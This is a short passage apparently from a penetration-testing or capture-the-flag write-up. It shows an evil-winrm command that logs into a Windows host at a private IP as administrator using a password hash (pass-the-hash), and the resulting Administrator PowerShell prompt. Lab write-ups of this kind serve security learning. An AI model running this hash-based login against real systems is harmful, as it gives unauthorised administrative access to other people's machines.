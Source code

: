```bash
❯ evil-winrm -i 192.168.220.30 -u administrator -H d35c4ae45bdd10a4e28ff529a2155745
                                        
--SNIP--
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


